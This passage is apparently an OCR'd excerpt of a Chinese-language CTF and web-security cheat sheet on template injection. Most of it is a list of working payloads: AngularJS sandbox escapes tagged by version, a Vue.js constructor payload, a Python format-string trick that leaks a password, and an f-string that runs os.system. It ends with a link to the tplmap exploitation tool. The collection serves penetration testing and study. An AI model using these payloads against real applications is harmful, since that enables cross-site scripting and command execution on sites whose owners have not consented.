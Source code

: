         - `{{''[request.args.kaibro]}}&kaibro=__class__`

## AngularJS
- v1.6后移除Sandbox
- Payload
    - `{{ 7*7 }}` => 49
    - `{{ this }}`
    - `{{ this.toString() }}`
    - `{{ constructor.toString() }}`
    - `{{ constructor.constructor('alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}` 2.3 v1.2.19-v1.2.23
    - `{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}` v1.2.24-v1.2.29
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}` v1.3.20
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}` v1.4.0-v1.4.9
    - `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}` v1.5.0-v1.5.8
    - `{{ [].pop.constructor('alert(1)')() }}` 2.8 v1.6.0-1.6.6

## Vue.js
- `{{constructor.constructor('alert(1)')()}}`
- https://github.com/dotboris/vuejs-serverside-template-xss

## Python
- `%`
    - 输入`%(passowrd)s`即可偷到密码：
    ```python
    userdata = {"user" : "kaibro", "password" : "ggininder" }
    passwd  = raw_input("Password: ")
    if passwd != userdata["password"]:
        print ("Password " + passwd + " is wrong")
    ```
- `f`
    - python 3.6
    - example
        - `a="gg"`
        - `b=f"{a} ininder"`
            - `>>> gg ininder`
    - example2
        - `f"{os.system('ls')}"`

## Tool
- https://github.com/epinna/tplmap

---
